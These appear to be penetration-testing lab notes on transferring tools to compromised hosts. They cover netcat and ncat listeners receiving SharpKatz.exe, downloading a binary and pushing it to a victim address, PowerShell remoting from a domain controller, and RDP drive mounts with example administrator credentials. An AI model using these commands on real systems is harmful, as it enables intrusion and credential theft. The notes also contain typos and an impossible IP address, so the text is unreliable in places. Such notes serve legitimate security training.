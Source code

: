 # File Transfers Using Netcat and Ncat

## NetCat: Compromised Machine - Listening on Port 8000
```bash
nc -lp 8000 > SharpKatz.exe
```

If the comporomised machine is using Ncat, we'll need to specify `--recv-only` to close the connection once the file transfer is finished.

## Ncat -Compromised Machine - Listening on Port 8000
```bash
ncat -lp 8000 --recv-only > SharpKatz.exe
```

From our attack host, we'll connect to the compromised machine on port 8000 using Netcat and send the file as input. The option `-q 0` will tell Netcat to close the conneciton once it finishes. that way, we'll know when the file transfer was completed.

## Netcat -Attack Host - Sending File to Comporomised Machine
```bash
wget -q https://github.com/somerandomuser/somerandombullshit.exe
nc -q 0 192.168.111.124 8000 < somerandombullshit.exe
```

## Ncat - Attack Host - Sending Files to Compromised Machine
```bash
ncat --send-only 192.168.111.124 8000 < somerandombullshit.exe

or from the victim machine:

nc 10.10.14.154 443 > somerandombullshit.exe
```
## Using PowerShell

```
PS C:\> whoami

htb\administrator

PS C:\> hostname

DC01

PS C:\> Test-NetConnection -ComputerName DATABASE01 -Port 5985

	ComputerName:	DATABASE01
	RemoteAddress:	192.168.69.420
	RemotePort:		5985
	InterfaceAlias:	Ethernet0
	SourceAddress:	192.168.1.100
	TcpTestSucceeded:	True

PS C:\> $session = New-PSsession -ComputerName DATABASE01

PS C:\> Copy-Item -Path C:\samplefile.txt -ToSession $session -Destination C:\Users\Administrator\Desktop\samplefile.txt

	to download FROM remote:

PS C:\> Copy-Item -Path C:\Users\Administrator\Desktop\samplefile.txt -Destination C:\ -FromSession $session
```

## Mounting a Linux Folder Using rdesktop

```bash
rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password123!' -r disk:linux='/home/user/share/files'
```

## Mounting a Linux Folder Using xfreerdp

```bash
xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password123!' /drive:linux,/home/user/share/files
```

To access the directory, we can connect to `\\tsclient\`, allowing us to transfer files to and from the RDP session. Alternatively, from Windows, we can use the native `mstsc.exe` remote desktop client.

